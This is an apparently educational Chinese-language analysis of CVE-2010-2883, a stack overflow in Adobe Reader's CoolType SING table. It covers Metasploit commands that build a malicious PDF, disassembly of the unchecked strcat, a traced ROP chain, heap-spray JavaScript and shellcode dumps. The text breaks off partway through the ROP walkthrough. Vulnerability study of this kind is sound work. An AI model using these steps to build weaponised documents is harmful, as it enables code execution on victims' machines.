

# 7.1.8 CVE-2010-2883 Adobe CoolType SING 表栈溢出漏洞

- [漏洞描述](#漏洞描述)
- [漏洞复现](#漏洞复现)
- [漏洞分析](#漏洞分析)
- [参考资料](#参考资料)

[下载文件](../src/exploit/7.1.8_adobe_reader_2010-2883)

## 漏洞描述

Adobe Reader 和 Acrobat 9.4 之前版本的 CoolType.dll 中存在基于栈的缓冲区溢出漏洞。远程攻击者可借助带有 TTF 字体的 Smart INdependent Glyphlets (SING) 表格中超长字段的 PDF 文件执行任意代码或者导致拒绝服务。

## 漏洞复现

| |推荐使用的环境 | 备注 |
| --- | --- | --- |
| 操作系统 | Windows XP SP3 | 体系结构：32 位 |
| 调试器 | OllyDbg | 版本号：吾爱专版 |
| 反汇编器 | IDA Pro | 版本号：6.8 |
| 漏洞软件 | Adobe Reader | 版本号：9.3.4 |

我们利用 Metasploit 来生成攻击样本：

```text
msf > search cve-2010-2883
   Name                                            Disclosure Date  Rank   Description
   ----                                            ---------------  ----   -----------
   exploit/windows/fileformat/adobe_cooltype_sing  2010-09-07       great  Adobe CoolType SING Table "uniqueName" Stack Buffer Overflow

msf > use exploit/windows/fileformat/adobe_cooltype_sing
msf exploit(windows/fileformat/adobe_cooltype_sing) > show info

msf exploit(windows/fileformat/adobe_cooltype_sing) > set payload windows/exec
payload => windows/exec

msf exploit(windows/fileformat/adobe_cooltype_sing) > set cmd calc.exe
cmd => calc.exe

msf exploit(windows/fileformat/adobe_cooltype_sing) > set filename cve20102883.pdf
filename => cve20102883.pdf

msf exploit(windows/fileformat/adobe_cooltype_sing) > exploit
[*] Creating 'cve20102883.pdf' file...
[+] cve20102883.pdf stored at /home/firmy/.msf4/local/cve20102883.pdf
```

使用漏洞版本的 Adobe Reader 打开样本，即可弹出计算器。

## 漏洞分析

### PDF 文件格式

首先当然得知道 PDF 格式是怎样的。

```text
|------------|
|   header   |
|------------|
|    body    |
|------------|
| xref table |
|------------|
|  trailer   |
|------------|
```

由 4 个部分组成：

- header：文件的第一行，指明了 PDF 文件的版本号，通常格式是 `%PDF-1.x`。
- body：文件的主体部分，通常由对象文件组成，包括文本、图片和其他的多媒体文件等。
- xref table：包含了对文件中所有对象的引用，通过它可以知道文件中有多少对象、对象的偏移以及字节长度。
- trailer：包含指向交叉引用表以及关键对象的指针，并以 `%%EOF` 标记文件结束。

当我们对一个 PDF 文件执行 Save（保存）操作时，新添加的信息将会附加到原文件的末尾，即所谓的增量保存。这些信息主要由 3 部分（body changes, xref, trailer）组成，此时的 PDF 文件如下所示：

```text
|--------------|
|    header    |    ------------
|--------------|
|     body     |
|--------------|    Original File
|  xref table  |
|--------------|
|   trailer    |    ------------
|--------------|
| body changes |
|--------------|    Update 1
|     xref     |
|--------------|
|   trailer    |    ------------
|--------------|
|     ...      |    ...
|--------------|
| body changes |    ------------
|--------------|
|     xref     |    Update n
|--------------|
|   trailer    |    ------------
|--------------|
```

这样子虽然方便，但体积会越来越大。此时我们可以执行 Save as（另存为）操作，将所有的更新信息合并成一个完整的新的 PDF，格式回到一开始的结构，体积也相应的有所减小。

例如可以利用工具 PDFStreamDumper 解析我们的样本，其 xref 和 trailer 如下所示：

```text
xref
0 15
0000000000 65535 f
0000000015 00000 n
0000000133 00000 n
0000000264 00000 n
0000000294 00000 n
0000000334 00000 n
0000000465 00000 n
0000000497 00000 n
0000000713 00000 n
0000000835 00000 n
0000001006 00000 n
0000041366 00000 n
0000041449 00000 n
0000045319 00000 n
0000045358 00000 n
trailer
<</S#69#7a#65 15/R#6f#6f#74 1 0 R>>
startxref
45789
%%EOF
.
```

该节区的对象的起始编号为 0,包含的对象个数为 15 个，每个对象在交叉引用表中占据一行。我们看到每行分为三列，分别表示对象在 PDF 中的文件偏移、对象的生成号和是否使用标志（`f` 表示 free，n 表示 used）。第一行对应的对象 ID 为 0，生成号总是 65535，而最后一行的生成号总是 0。

### TTF 文件格式

根据漏洞通告，我们知道是 TTF 字体的 SING 表引起的溢出。所以再来看一下 TTF 文件格式。

TTF 包含有一个表 TableDirectory，其中有一个 TableEntry 结构项，包含了资源标记、校验和、偏移量和每个表的大小：

```c
typedef sturct
{
    char    tag[4];
    ULONG   checkSum;
    ULONG   offset;
    ULONG   length;
} TableEntry;

typedef struct
{
    Fixed   sfntversion;
    USHORT  numTables;
    USHORT  searchRange;
    USHORT  entrySelector;
    USHORT  rangeShift;
    TableEntry  entries[numTables];
} TableDirectory;
```

另外，SING 表的结构如下：

```c
typedef struct
{
    USHORT  tableVersionMajor;
    USHORT  tableVersionMinor;
    USHORT  glyphletVersion;
    USHORT  embeddinginfo;
    USHORT  mainGID;
    USHORT  unitsPerEm;
    SHORT   vertAdvance;
    SHORT   vertOrigin;
    BYTE[28]    uniqueName;
    BYTE[16]    METAMD5;
    BYTE    nameLength;
    BYTE[]  baseGlyphName;
} SINGTable;
```

还是利用 PDFStreamDumper，从样本里将 TTF 取出来，需要注意的是 TTF 采用大端序。

<pre>
$ xxd -g1 hexC0E5.tmp | grep -A1 "SING"
000000e0: 05 47 06 3a 00 00 eb 2c 00 00 00 20 <b>53 49 4e 47</b>  .G.:...,... SING
000000f0: <b>d9 bc c8 b5 00 00 01 1c 00 00 1d df</b> 70 6f 73 74  ............post
</pre>

加粗部分即 SING 表目录项，其 `offset` 域为 `0x0000011c`。

于是找到 SING 表，其中加粗部分为 `uniqueName` 域：

<pre>
$ xxd -g1 hexC0E5.tmp | grep -A3 "00000110"
00000110: 3b 07 f1 00 00 00 20 f8 00 00 05 68 00 00 01 00  ;..... ....h....
00000120: 01 0e 00 01 00 00 00 00 00 00 00 3a <b>92 f3 5e 4d  ...........:..^M
00000130: 73 5d 52 c2 14 a7 82 4a 0c 0c 0c 0c bc 94 b0 83  s]R....J........
00000140: 45 a2 04 7d 13 4b 30 18</b> 98 95 ed 9f 3e cc 50 8b  E..}.K0.....>.P.
</pre>

### 栈溢出

我们已经知道栈溢出发生在 SING 表的处理中，于是在 IDA 中打开 CoolType.dll，搜索字符串 "SING"：

```text
.rdata:0819DB4C ; char aSing[]
.rdata:0819DB4C aSing           db 'SING',0             ; DATA XREF: sub_8015AD9+D2↑o
.rdata:0819DB4C                                         ; sub_803DCF9+7B↑o ...
.rdata:0819DB51                 align 4
```

对每个数据引用进行检查，发现 `sub_803DCF9+7B↑o` 的下方存在危险函数 `strcat`：

```text
.text:0803DCF9 ; __unwind { // loc_8184A54
.text:0803DCF9                 push    ebp
.text:0803DCFA                 sub     esp, 104h            ; 分配栈空间 104h
.text:0803DD00                 lea     ebp, [esp-4]         ; ebp 赋值为 esp-4
.text:0803DD04                 mov     eax, ___security_cookie
.text:0803DD09                 xor     eax, ebp
.text:0803DD0B                 mov     [ebp+108h+var_4], eax
.text:0803DD11                 push    4Ch
.text:0803DD13                 mov     eax, offset loc_8184A54
.text:0803DD18                 call    __EH_prolog3_catch
.text:0803DD1D                 mov     eax, [ebp+108h+arg_C]
.text:0803DD23                 mov     edi, [ebp+108h+arg_0]    ; edi 赋值为 arg_0
.text:0803DD29                 mov     ebx, [ebp+108h+arg_4]
.text:0803DD2F                 mov     [ebp+108h+var_130], edi
.text:0803DD32                 mov     [ebp+108h+var_138], eax
.text:0803DD35                 call    sub_804172C
.text:0803DD3A                 xor     esi, esi
.text:0803DD3C                 cmp     dword ptr [edi+8], 3
.text:0803DD40 ;   try {
.text:0803DD40                 mov     [ebp+108h+var_10C], esi
.text:0803DD43                 jz      loc_803DF00
.text:0803DD49                 mov     [ebp+108h+var_124], esi
.text:0803DD4C                 mov     [ebp+108h+var_120], esi
.text:0803DD4F                 cmp     dword ptr [edi+0Ch], 1
.text:0803DD4F ;   } // starts at 803DD40
.text:0803DD53 ;   try {
.text:0803DD53                 mov     byte ptr [ebp+108h+var_10C], 1
.text:0803DD57                 jnz     loc_803DEA9
.text:0803DD5D                 push    offset aName    ; "name"
.text:0803DD62                 push    edi             ; int
.text:0803DD63                 lea     ecx, [ebp+108h+var_124]
.text:0803DD66                 mov     [ebp+108h+var_119], 0
.text:0803DD6A                 call    sub_80217D7
.text:0803DD6F                 cmp     [ebp+108h+var_124], esi
.text:0803DD72                 jnz     short loc_803DDDD
.text:0803DD74                 push    offset aSing    ; "SING"
.text:0803DD79                 push    edi             ; int
.text:0803DD7A                 lea     ecx, [ebp+108h+var_12C]  ; this 指针的地址，指向 SING 表入口
.text:0803DD7D                 call    sub_8021B06              ; sub_8021B06(edi, "SING")，处理 SING 表
.text:0803DD82                 mov     eax, [ebp+108h+var_12C]
.text:0803DD85                 cmp     eax, esi         ; 判断是否为空
.text:0803DD85 ;   } // starts at 803DD53
.text:0803DD87 ;   try {
.text:0803DD87                 mov     byte ptr [ebp+108h+var_10C], 2
.text:0803DD8B                 jz      short loc_803DDC4        ; 不跳转
.text:0803DD8D                 mov     ecx, [eax]               ; SING 表开头 4 字节，即字体资源版本号（00 01 00 00）
.text:0803DD8F                 and     ecx, 0FFFFh              ; 结果为 0
.text:0803DD95                 jz      short loc_803DD9F        ; 跳转
.text:0803DD97                 cmp     ecx, 100h
.text:0803DD9D                 jnz     short loc_803DDC0
.text:0803DD9F
.text:0803DD9F loc_803DD9F:                            ; CODE XREF: sub_803DCF9+9C↑j
.text:0803DD9F                 add     eax, 10h                 ; uniqueName 域
.text:0803DDA2                 push    eax             ; Source ; 指向 uniqueName 的指针
.text:0803DDA3                 lea     eax, [ebp+108h+Dest]
.text:0803DDA6                 push    eax             ; Dest   ; 目的地址是固定大小的栈空间
.text:0803DDA7                 mov     [ebp+108h+Dest], 0
.text:0803DDAB                 call    strcat                   ; 造成溢出
```

在调用 strcat 函数时，未对 uniqueName 的字符串长度进行检查，直接将其复制到固定大小的栈空间，造成溢出。strcat 函数原型如下：

```c
char *strcat(char *dest, const char *src);

char *strncat(char *dest, const char *src, size_t n);
```

下面打开 OllyDbg 调试一下，先来看看函数 `sub_8021B06` 做了什么，在 `0803DD7D` 设置断点，然后在 Reader 中打开样本，程序就断了下来：

```text
0803DD7D    E8 843DFEFF     call CoolType.08021B06
0803DD82    8B45 DC         mov eax,dword ptr ss:[ebp-0x24]
```

此时的 this 指针指向 TTF 对象：

<pre>
d ecx:

0012E4B4  <b>B0 54 18 02</b> 98 15 FC 01 00 00 00 00 00 00 00 00  癟??........

d 021854B0:

021854B0  00 01 00 00 00 11 01 00 00 04 00 10 4F 53 2F 32  .......OS/2     <-- TableDirectory
021854C0  B4 5F F4 63 00 00 EB 70 00 00 00 56 50 43 4C 54  確鬰..雙...VPCLT
...
</pre>

然后 F8 单步步过，eax 里是函数的返回值 `0012E4B4`，其值等于 this 指针的地址。

<pre>
d 0012E4B4:

0012E4B4  <b>38 B9 7D 04</b> DF 1D 00 00 00 00 00 00 00 00 00 00  8箎?..........
</pre>

下一句给 eax 赋值为一个指向 SING 表的指针，即 this 指针的内容。

<pre>
d 047DB938:

047DB938  <b>00 00 01 00</b> 01 0E 00 01 00 00 00 00 00 00 00 3A  ...........:      <-- SING
047DB948  <b>92 F3 5E 4D 73 5D 52 C2 14 A7 82 4A 0C 0C 0C 0C</b>  掦^Ms]R?J....      <-- uniqueName
047DB958  <b>BC 94 B0 83 45 A2 04 7D 13 4B 30 18</b> 98 95 ED 9F  紨皟E?}K0槙頍       <-- 0x1c bytes
047DB968  3E CC 50 8B AC FE B5 5C 8F 86 D5 26 8B 36 0C 13  >蘌嫭\弳??.
047DB978  25 2D 1F C3 0E 47 40 13 C9 1C 5F 86 90 AC 42 6D  %-?G@?_啇珺m
047DB988  40 44 C6 D4 59 9A AC 7D 1B E1 CA 25 3E E4 B3 05  @D圃Y毈}崾%>涑
047DB998  0D 85 43 B3 D9 58 4E 7E B9 A3 6D 4C 89 29 1D FE  .匔迟XN~梗mL?
047DB9A8  73 9A C4 84 6C 29 7A 5D 6D 7B 6E 1C 39 E0 1E E4  s毮刲)z]m{n9?
047DB9B8  51 7A 86 DE 7B FB 6F 04 B0 CF 3E E0 CF 4C AB FA  Qz嗈{鹢跋>嘞L
047DB9C8  71 41 CD 19 69 68 4E F6 35 A1 B5 3C 66 77 F2 45  qA?ihN?〉 fw駿
047DB9D8  71 73 01 C0 19 F4 A4 E1 D9 8A 8B C2 85 83 EA 2F  qs?簸豳妺聟冴/
047DB9E8  6E ED 57 4D E6 B7 7F 88 48 BD 16 8E DC 51 9E 7E  n鞼M娣圚?庈Q瀪
047DB9F8  BE 8B 09 8E 53 50 ED A9 F1 AC AE AD 01 5C 1E 11  緥.嶴P愆瘳\
047DBA08  33 06 83 44 4B 4A EC 9F 26 3A AF 0A 74 62 C5 1E  3僁KJ鞜&:?tb?
047DBA18  AE A8 58 3F F3 F1 82 F0 4D AC DA AE 10 AB 02 B9  X?篑傪M??
047DBA28  E2 03 EF F6 76 B4 EF 35 4D 8D 45 3B F4 FE 9A D0  ?秭v达5M岴;酤毿
047DBA38  58 AE 97 E5 D7 D8 EF 62 2F 4E 30 D6 B8 B4 A2 73  X畻遄仫b/N0指储s
047DBA48  E3 B7 84 6A A9 41 CE 16 CC FB 8B 1D 43 1B B5 DB  惴刯〢?帖?C帝
047DBA58  1D 60 EC BE C1 47 BA 2A 03 DD 3A C4 E1 93 74 1D  `炀罣??尼搕
047DBA68  66 41 B0 85 B8 2A 5E DE 39 C9 5D 97 ED 1B 82 65  fA皡?^?蒥楉俥
047DBA78  C6 08 8A 4A E5 20 41 0C 26 0A 03 AA 46 C5 36 C9  ?奐?A.&.狥?
047DBA88  CB 76 1D C4 56 BD 76 A3 34 F7 2B 79 1F 6D 51 2C  藇腣絭??ymQ,
047DBA98  9F 79 21 5E A8 94 1B 4A 05 BF B3 7C BC B2 FD 99  焬!^〝J砍|疾龣
047DBAA8  E5 B3 08 D2 BC 86 25 BB C1 F8 DE F3 4A C8 1E 82  宄壹?涣驤?
047DBAB8  25 12 18 C2 A9 F1 E6 36 92 94 01 29 98 A3 F5 A3  %漏矜6挃)槪酰
047DBAC8  25 4B 02 0D 17 F2 87 B1 99 A5 8F 6F AA 81 21 64  %K.驀睓o獊!d
047DBAD8  B8 57 11 6D CF 88 FC B8 22 B9 2B 58 66 CF D2 8B  竁m蠄"?Xf弦
047DBAE8  F8 12 D6 82 CC B3 5E 28 B4 85 51 54 23 2B 74 21  ?謧坛^(磪QT#+t!
047DBAF8  FC 6D 97 08 96 0D BE 76 F5 46 04 72 A6 7B CA 29  黰??緑鮂r?
047DBB08  07 C6 41 55 B2 48 D9 F5 C7 E3 0C 35 1E DA 06 BF  艫U睭脔倾.5?
047DBB18  D3 62 D4 D3 D4 A8 D3 AF A1 17 09 13 E1 5B 18 FD  觔杂渊盈?.醄
047DBB28  ED 04 43 AC 1C 6F A6 1E 02 64 49 D1 5F 5E 54 75  ?C?o?dI裚^Tu
047DBB38  A7 24 35 67 FF CC E6 E0 <b>38 CB 80 4A</b> 44 B6 49 EA  ?5g替?藔JD禝        <-- ROP
047DBB48  A5 2D 16 26 4B B1 FA D2 87 82 36 34 9C F8 BD E0  ?&K柄覈?4滧洁
047DBB58  7D 33 0F 1E 66 5B 23 98 E3 1A 80 55 CE 9F D3 BD  }3f[#樸€U螣咏
047DBB68  CE 3C 13 48 AF 4D BA 78 DB 4E EA 5F 34 3F 14 8C  ?H疢簒跱阓4?
047DBB78  80 56 8D 65 A8 84 38 6D 91 4E B1 54 6C 00 00 00  €V峞▌8m慛盩l...              <-- 0x22d bytes
</pre>

所以这个函数的作用已经清楚了，通过传入的 tag 字符串，在 this 指针指向的 TTF 对象里找到对应的表目录项，使用表地址重置 this 指针。

接下来就是 strcat 函数了。

```text
0803DD9F    83C0 10         add eax,0x10
0803DDA2    50              push eax
0803DDA3    8D45 00         lea eax,dword ptr ss:[ebp]
0803DDA6    50              push eax
0803DDA7    C645 00 00      mov byte ptr ss:[ebp],0x0
0803DDAB    E8 483D1300     call <jmp.&MSVCR80.strcat>
```

根据上面的 SING 表可以看到，`uniqueName` 原本只应该有最多 `0x1c` 个字节，但 strcat 根据 "\x00" 来作为字符串的结束，将导致复制 `0x22d` 个字节到栈上，造成溢出。

### ROP

我们对复制到栈上的这段数据（`0012E4D8`~`0012E714`）设置内存访问断点。并开启 run trace 进行函数跟踪。

继续运行，然后我们记录下函数调用：

```text
CoolType.08016BDE --> CoolType.0801BB21 --> CoolType.0808B116 --> icucnv36.4A80CB38
```

```text
0803DEAC    50              push eax
0803DEAD    53              push ebx
0803DEAE    57              push edi
0803DEAF    E8 2A8DFDFF     call CoolType.08016BDE
```

`CoolType.08016BDE`：

```text
08016C46    6A 01           push 0x1
08016C48    53              push ebx
08016C49    53              push ebx
08016C4A    8D45 EC         lea eax,dword ptr ss:[ebp-0x14]
08016C4D    50              push eax
08016C4E    8D45 D0         lea eax,dword ptr ss:[ebp-0x30]
08016C51    50              push eax
08016C52    57              push edi
08016C53    FF75 E8         push dword ptr ss:[ebp-0x18]
08016C56    E8 C64E0000     call CoolType.0801BB21
```

`CoolType.0801BB21`：

```text
0801BB24    FF75 20         push dword ptr ss:[ebp+0x20]
0801BB27    8B4D 08         mov ecx,dword ptr ss:[ebp+0x8]
0801BB2A    FF75 1C         push dword ptr ss:[ebp+0x1C]
0801BB2D    8B01            mov eax,dword ptr ds:[ecx]               ; CoolType.081A601C
0801BB2F    FF75 18         push dword ptr ss:[ebp+0x18]
0801BB32    FF05 A0A62308   inc dword ptr ds:[0x823A6A0]
0801BB38    FF75 14         push dword ptr ss:[ebp+0x14]
0801BB3B    FF75 10         push dword ptr ss:[ebp+0x10]
0801BB3E    FF75 0C         push dword ptr ss:[ebp+0xC]
0801BB41    FF10            call dword ptr ds:[eax]                  ; CoolType.0808B116
```

最终来到 `CoolType.0808B116` 里的关键点：

```text
0808B11D    8B7D 08         mov edi,dword ptr ss:[ebp+0x8]
...
0808B2E3    8B47 3C         mov eax,dword ptr ds:[edi+0x3C]         ; eax = ds:[edi+0x3C]
0808B2E6    3BC3            cmp eax,ebx
0808B2E8    8986 F4020000   mov dword ptr ds:[esi+0x2F4],eax
0808B2EE    899E F8020000   mov dword ptr ds:[esi+0x2F8],ebx
0808B2F4    895D FC         mov dword ptr ss:[ebp-0x4],ebx
0808B2F7    75 07           jnz short CoolType.0808B300
0808B2F9    32C0            xor al,al
0808B2FB    E9 94020000     jmp CoolType.0808B594
0808B300    8D4D FC         lea ecx,dword ptr ss:[ebp-0x4]
0808B303    51              push ecx
0808B304    53              push ebx
0808B305    6A 03           push 0x3
0808B307    50              push eax
0808B308    FF10            call dword ptr ds:[eax]                  ; icucnv36.4A80CB38
```

通过最后的 call 指令，程序跳转到了 ROP 链。回忆一下 uniqueName 域从 `0012E4D8` 开始：

```text
4A80CB38    81C5 94070000   add ebp,0x794   ; ebp = 0012E4DC
4A80CB3E    C9              leave           ; esp = 0012E4E0, ebp = C2525D73
4A80CB3F    C3              retn            ; esp = 0012E4E4, eip = 4A82A714

d esp:

0012E4E4  0C 0C 0C 0C BC 94 B0 83 45 A2 04 7D 13 4B 30 18  ....紨皟E?}K0
0012E4F4  98 95 ED 9F 3E CC 50 8B AC FE B5 5C 8F 86 D5 26  槙頍>蘌嫭\弳?
```

于是跳转到 `4A82A714`：

```text
4A82A714    5C              pop esp         ; esp = 0C0C0C0C
4A82A715    C3              retn            ; esp = 0C0C0C10, eip = 4A8063A5
```

在进入下面的内容前，我们再来看一个东西，即 `eax` 是由 `edi` 控制的，通过对函数调用的回溯，可以看到程序对 edi 的处理，它的值在整个过程中都是不变的，而且 edi+0x3C 正好存放第一个 gadget 的地址。所以只要这个地址被覆盖，就可以控制 EIP 了。

<pre>
d edi+0x3C:

0012E754  <b>D0 E6 12 00</b> 00 00 00 00 00 AA 04 08 00 00 00 00  墟......?....    <-- eax

d 0012E6D0:

0012E6D0  <b>38 CB 80 4A</b> 44 B6 49 EA A5 2D 16 26 4B B1 FA D2  8藔JD禝辚-&K柄    <-- ROP
</pre>

### Heap spray

上面的 gadget 返回后，堆栈就被转移到 heap spray 的地方了。

Heap spray 是在 shellcode 的前面加上大量的 slide code（滑板指令），组成一个注入代码段。然后向系统申请大量内存，并且反复用注入代码段来填充。这样就使得进程的地址空间被大量的注入代码所占据。然后结合其他的漏洞攻击技术控制程序流，使得程序执行到堆上，最终将导致 shellcode 的执行。

我们来实际看一下（加粗的地方是后面会用到的 gadgets 地址）：

<pre>
0C0C0BE0  0C 0C 0C 0C 0C 0C 0C 0C 0C 0C 0C 0C 0C 0C 0C 0C  ................    <-- NOP slide
0C0C0BF0  0C 0C 0C 0C 0C 0C 0C 0C 0C 0C 0C 0C 0C 0C 0C 0C  ................
0C0C0C00  0C 0C 0C 0C 0C 0C 0C 0C 41 41 41 41 <b>A5 63 80 4A</b>  ........AAAA€J
0C0C0C10  00 00 8A 4A <b>96 21 80 4A</b> <b>90 1F 80 4A</b> <b>3C 90 84 4A</b>  ..奐?€J?€J<悇J      <-- ROP
0C0C0C20  <b>92 B6 80 4A</b> 64 10 80 4A C8 22 85 4A 00 00 00 10  挾€Jd€J?匤...
0C0C0C30  00 00 00 00 00 00 00 00 02 00 00 00 02 01 00 00  .............
0C0C0C40  00 00 00 00 <b>A5 63 80 4A</b> <b>64 10 80 4A</b> <b>B2 2D 84 4A</b>  ....€Jd€J?凧
0C0C0C50  <b>B1 2A 80 4A</b> 08 00 00 00 <b>A6 A8 80 4A</b> <b>90 1F 80 4A</b>  ?€J...Θ€J?€J
0C0C0C60  38 90 84 4A <b>92 B6 80 4A</b> <b>64 10 80 4A</b> FF FF FF FF  8悇J挾€Jd€J
0C0C0C70  00 00 00 00 40 00 00 00 00 00 00 00 00 00 01 00  ....@..........
0C0C0C80  00 00 00 00 A5 63 80 4A 64 10 80 4A <b>B2 2D 84 4A</b>  ....€Jd€J?凧
0C0C0C90  <b>B1 2A 80 4A</b> 08 00 00 00 <b>A6 A8 80 4A</b> <b>90 1F 80 4A</b>  ?€J...Θ€J?€J
0C0C0CA0  30 90 84 4A <b>92 B6 80 4A</b> <b>64 10 80 4A</b> FF FF FF FF  0悇J挾€Jd€J
0C0C0CB0  22 00 00 00 00 00 00 00 00 00 00 00 00 00 01 00  "..............
0C0C0CC0  A5 63 80 4A 04 00 8A 4A <b>96 21 80 4A</b> <b>A5 63 80 4A</b>  €J.奐?€J€J
0C0C0CD0  64 10 80 4A <b>B2 2D 84 4A</b> <b>B1 2A 80 4A</b> 30 00 00 00  d€J?凧?€J0...
0C0C0CE0  <b>A6 A8 80 4A</b> <b>90 1F 80 4A</b> 04 00 8A 4A <b>D8 A7 80 4A</b>  Θ€J?€J.奐丕€J
0C0C0CF0  <b>A5 63 80 4A</b> 64 10 80 4A <b>B2 2D 84 4A</b> <b>B1 2A 80 4A</b>  €Jd€J?凧?€J
0C0C0D00  20 00 00 00 <b>A6 A8 80 4A</b> <b>A5 63 80 4A</b> 64 10 80 4A   ...Θ€J€Jd€J
0C0C0D10  <b>DC AE 80 4A</b> <b>90 1F 80 4A</b> 34 00 00 00 <b>85 D5 80 4A</b>  墚€J?€J4...呎€J
0C0C0D20  <b>A5 63 80 4A</b> 64 10 80 4A <b>B2 2D 84 4A</b> <b>B1 2A 80 4A</b>  €Jd€J?凧?€J
0C0C0D30  0A 00 00 00 <b>A6 A8 80 4A</b> <b>90 1F 80 4A</b> 70 91 84 4A  ....Θ€J?€Jp憚J
0C0C0D40  <b>92 B6 80 4A</b> FF FF FF FF FF FF FF FF FF FF FF FF  挾€J
0C0C0D50  00 10 00 00 DB C1 D9 74 24 F4 BB 81 F4 49 9E 5A  ...哿賢$艋侓I瀂    <-- shellcode
0C0C0D60  29 C9 B1 31 31 5A 18 03 5A 18 83 C2 85 16 BC 62  )杀11ZZ兟?糱
0C0C0D70  6D 54 3F 9B 6D 39 C9 7E 5C 79 AD 0B CE 49 A5 5E  mT?沵9蓗\y?蜪
0C0C0D80  E2 22 EB 4A 71 46 24 7C 32 ED 12 B3 C3 5E 66 D2  ?隞qF$|2?趁^f
0C0C0D90  47 9D BB 34 76 6E CE 35 BF 93 23 67 68 DF 96 98  G澔4vn?繐#gh邧
0C0C0DA0  1D 95 2A 12 6D 3B 2B C7 25 3A 1A 56 3E 65 BC 58  ?m;+?:V>e糥
0C0C0DB0  93 1D F5 42 F0 18 4F F8 C2 D7 4E 28 1B 17 FC 15  ?魾?O譔(?
0C0C0DC0  94 EA FC 52 12 15 8B AA 61 A8 8C 68 18 76 18 6B  旉黂嫪a▽hvk
0C0C0DD0  BA FD BA 57 3B D1 5D 13 37 9E 2A 7B 5B 21 FE F7  糊篧;裖7?{[!
0C0C0DE0  67 AA 01 D8 EE E8 25 FC AB AB 44 A5 11 1D 78 B5  g?仡?獶?x
0C0C0DF0  FA C2 DC BD 16 16 6D 9C 7C E9 E3 9A 32 E9 FB A4  芙m渱殂?辂
0C0C0E00  62 82 CA 2F ED D5 D2 E5 4A 29 99 A4 FA A2 44 3D  b偸/碚义J)櫎D=
0C0C0E10  BF AE 76 EB 83 D6 F4 1E 7B 2D E4 6A 7E 69 A2 87  慨v雰拄{-鋔~i
0C0C0E20  F2 E2 47 A8 A1 03 42 CB 24 90 0E 22 C3 10 B4 3A  蜮GāB??"??
0C0C0E30  0C 0C 0C 0C 0C 0C 0C 0C 0C 0C 0C 0C 0C 0C 0C 0C  ................    <-- NOP slide
0C0C0E40  0C 0C 0C 0C 0C 0C 0C 0C 0C 0C 0C 0C 0C 0C 0C 0C  ................
</pre>

通过 PDFStreamDumper 可以看到内嵌的 JavaScript，将变量还原后代码如下：

```javascript
var shellcode = unescape( '%u4141%u4141%u63a5%u4a80%u0000 ...省略大量字符... a1%ucb42%u9024%u220e%u10c3%u3ab4' );
var rop = unescape( "%u0c0c%u0c0c" );
while (rop.length + 20 + 8 < 65536) rop+=rop;
SP = rop.substring(0, (0x0c0c-0x24)/2);
SP += shellcode;
SP += rop;
slackspace = SP.substring(0, 65536/2);
while(slackspace.length < 0x80000) slackspace += slackspace;
bigblock = slackspace.substring(0, 0x80000 - (0x1020-0x08) / 2);
var memory = new Array();
for (count=0;count<0x1f0;count++) memory[count]=bigblock+"s";
```

接下来程序将依次执行下面的 gadgets：

```text
4A8063A5    59              pop ecx         ; esp = 0C0C0C14, ecx = 4A8A0000
4A8063A6    C3              retn            ; esp = 0C0C0C18, eip = 4A802196
```

```text
4A802196    8901            mov dword ptr ds:[ecx],eax
4A802198    C3              retn            ; eip = 4A801F90
```

```text
4A801F90    58              pop eax         ; eax = 4A84903C <&KERNEL32.CreateFileA>
4A801F91    C3              retn            ; esp = 0C0C0C24, eip = 4A80B692
```

```text
4A80B692  - FF20            jmp dword ptr ds:[eax]                   ; kernel32.CreateFileA
```

调用函数 `kernel32.CreateFileW` 创建文件，各参数如下所示：

```text
0C0C0C04   7FFDFC00  |FileName = "iso88591"
0C0C0C08   10000000  |Access = GENERIC_ALL
0C0C0C0C   00000000  |ShareMode = 0
0C0C0C10   00000000  |pSecurity = NULL
0C0C0C14   00000002  |Mode = CREATE_ALWAYS
0C0C0C18   00000102  |Attributes = HIDDEN|TEMPORARY
0C0C0C1C   00000000  \hTemplateFile = NULL
```

然后通过同样的方法调用 `CreateFileMapping`：

```text
4A8063A5    59              pop ecx         ; esp = 0C0C0C4C, ecp = 4A801064
4A8063A6    C3              retn            ; esp = 0C0C0C50, eip = 4A842DB2
```

```text
4A842DB2    97              xchg eax,edi
4A842DB3    C3              retn            ; esp = 0C0C0C54, eip = 4A802AB1
```

```text
4A802AB1    5B              pop ebx         ; esp = 0C0C0C58, ebx = 00000008
4A802AB2    C3              retn            ; esp = 0C0C0C5C, eip = 4A80A8A6
```

```text
4A80A8A6    213C5C          and dword ptr ss:[esp+ebx*2],edi
4A80A8A9    75 03           jnz short icucnv36.4A80A8AE
4A80A8AB    B0 01           mov al,0x1
4A80A8AD    C3              retn
```

```text
4A80A8A6    213C5C          and dword ptr ss:[esp+ebx*2],edi
...
4A80A8C8    32C0            xor al,al
4A80A8CA    C3              retn            ; esp = 0C0C0C60, eip = 4A801F90
```

```text
4A801F90    58              pop eax         ; esp = 0C0C0C64, eax = 4A849038 <&KERNEL32.CreateFileMappingA>
4A801F91    C3              retn            ; esp = 0C0C0C68, eip = 4A80B692
```

```text
4A80B692  - FF20            jmp dword ptr ds:[eax]                   ; kernel32.CreateFileMappingA
```

调用函数 `kernel32.CreateFileMappingW` 创建内存映射，各参数如下所示：

```text
0C0C0C40   000003D4  |hFile = 000003D4
0C0C0C44   00000000  |pSecurity = NULL
0C0C0C48   00000040  |Protection = PAGE_EXECUTE_READWRITE
0C0C0C4C   00000000  |MaximumSizeHigh = 0x0
0C0C0C50   00010000  |MaximumSizeLow = 0x10000
0C0C0C54   00000000  \MapName = NULL
```

接下来是调用 `MapViewOfFile` 的过程：

```text
